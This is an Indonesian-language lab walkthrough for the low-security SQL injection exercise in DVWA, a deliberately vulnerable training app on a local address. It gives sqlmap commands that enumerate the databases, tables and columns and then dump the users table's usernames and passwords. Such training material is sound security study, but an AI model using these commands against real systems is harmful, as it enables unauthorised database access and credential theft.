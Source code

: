<b> HOW TO SOLVE SQL INJECTION LOW </b>

1. First, kita masukin user ID dengan angka '1' untuk men test, setelah itu kita copy url nya

   ```
   http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit# 
   ```

![Screenshot (445)](https://user-images.githubusercontent.com/118157585/215420792-fea06c63-43ad-459a-bca5-b848f089d75d.png)

2. Lalu kita buka Sqlmap di cli kita, copy url tadi. berikut perintahnya :

   ```
   sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' --dbs
   ```

![Screenshot (446)](https://user-images.githubusercontent.com/118157585/215426505-51d80e8d-087c-4bfa-830d-b39d10f0f624.png)

![Screenshot (447)](https://user-images.githubusercontent.com/118157585/215426535-dfa75a1f-ed59-4a17-a7d8-dd45c03ee464.png)
   nah setelah itu keluar databases nya yang mana bisa kita cek dulu untuk mencari username dan password, seperti gambar diatas terdapat 2 databases yaitu 
  
   <i><b> dvwa </b></i>

   <i><b> information_scheme </b></i>
  
3. Nah disini kita eksekusi dulu di databases <i><b> dvwa </i></b>, dan terdapat 2 tables. dengan perintah :

   ```
   sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' -D dvwa --tables
   ```
   
   ![Screenshot (450)](https://user-images.githubusercontent.com/118157585/215431105-74110598-67e4-4577-a00a-b217a73e7582.png)
   
4. Sekarang kita coba cek kolom dari tables <i><b> users </i></b>, nah gambar dibawah ini terdapat sebuah username dan password. dengan mengetikkan perintah :

   ```
   sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' -D dvwa -T users --column
   ```
   
   ![Screenshot (448)](https://user-images.githubusercontent.com/118157585/215431189-1b512563-5a1e-4b92-857b-7cb8309f6f15.png)
   
5. Setelah kita mengetahui di tables <i><b> users </i></b> terdapat kolom usernam dan password, sekarang kita langsung 
   ``
   dump
   ``
   saja tables tersebut dengan mengetikkan perintah :
   
   ```
   sqlmap -u 'http://192.168.18.115/DVWA/vulnerabilities/sqli/?id=3&Submit=Submit#' -D dvwa -T users --dump
   ```
   
   ![Screenshot (449)](https://user-images.githubusercontent.com/118157585/215431205-8277a2b9-e772-4e96-a4ff-2fdfa6c0022e.png)

